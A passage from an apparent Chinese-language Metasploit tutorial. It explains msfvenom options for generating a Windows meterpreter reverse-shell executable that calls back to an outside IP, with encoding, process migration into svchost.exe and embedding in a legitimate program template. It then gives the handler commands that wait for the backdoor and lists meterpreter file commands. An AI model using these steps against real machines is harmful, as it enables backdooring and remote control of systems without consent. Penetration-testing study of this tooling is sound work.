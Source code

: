 -   `-p windows/meterpreter/reverse_tcp`，是选择的 Payload。
-   `-a x86_64`，目标系统架构，比如是什么语言写的应用系统呀，选对的位数避免兼容问题，不然可能无法上线。
-   `--platform windows`，目标系统平台架构，确保兼容，比如：Windows 还是 Linux 或者是 Android。
-   `LHOST=45.32.*.* LPORT=6000`，指定要反弹 Shell 到哪台机器上 6000 端口。
-   `-e x64/xor_dynamic -i 15`，选择 shikata\_ganai 编码器将 payload 编码 15 次。并没什么用处，无法过杀软。
-   `-b，用于去除 %ff %00` 这种坏字符，而且会自动选择编码器
-   `PrependMigrate=true`，当这个进程被杀了之后，我要迁移进程。
-   `PrependMigrateProc=svchost.exe`，将进程迁移到 svchost.exe，迁移到 explorer.exe 也是个不错的选择
-   `-x ./mongo.exe`，使用 mongo.exe 来作为模板，它的功能还在只不过将 payload 也加进去了。没咋用过此选项。
-   `-k`，在程序运行中不会产生新进程只会在进程中多出一个线程，也就是说运行 1.exe 不会产生一个 2.exe 出来
-   `-f exe`，是文件输出格式，比如：python 脚本或是 c 的源代码也可是 exe 可以执行程序等等...
-   `-o`，将 Payload 保存在哪里。

另一种是在 Console 种生成

1.  msfconsole
2.  msf > use payload/windows/x64/meterpreter/reverse\_tcp
3.  set lhost 192.168.1.118
4.  generate

监听端口等待后门反连。

```plaintext
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 45.32.1.1
msf exploit(handler) > set lport 6000
msf exploit(handler) > exploit
```

用 MSF 生成 exe 文件来反弹 Shell，如果 Windows Shell 界面乱码可以临时设置终端编码为 UTF-8。

```plaintext
chcp 65001
```

### Meterpreter

这种 Shell 是运行在内存中的，比如说把自身当做线程写入到某一个进程中，不写入硬盘。接着建立 socket 链接，通过链接上传并加载 DLL 到进程中，此时就开放了某些 API，通过 Socket 链接建立 TLS 通信隧道，以此向客户端发送一些命令，这些命令由这个 API 去执行。

在 `set payload` 时指定 Meterpreter 分类下的各种 payload。

shellcode 执行成功返回 meterpreter Shell 后，也可以使用 help 来获得帮助信息。

```plaintext
meterpreter > help
```

#### 常用命令

##### 文件

对目标文件系统进行操作。

| Command | Description |
| --- | --- |
| cd  | 切换目录，在命令前面加个 l 就是在本地操作。 |
| cp  | 复制 x 到哪里去。 |
| ls  <br>dir | 显示当前目录下的文件，dir 命令作用与它一致。在命令前面加个 l 就是在本地操作。 |
| pwd  <br>getwd | 显示目标系统当前工作目录，getwd 与 pwd 作用相同。在命令前面加个 l 就是在本地操作。 |
| edit | 在目标系统当前活动目录中编辑或创建文件，和 vi 一样操作。 |
| cat | 读取一个文件内容并显示在屏幕上。 |
| mkdir | 在目标文件系统上创建一个目录。 |
| mv  | 移动目标文件系统中的内容到指定位置。 |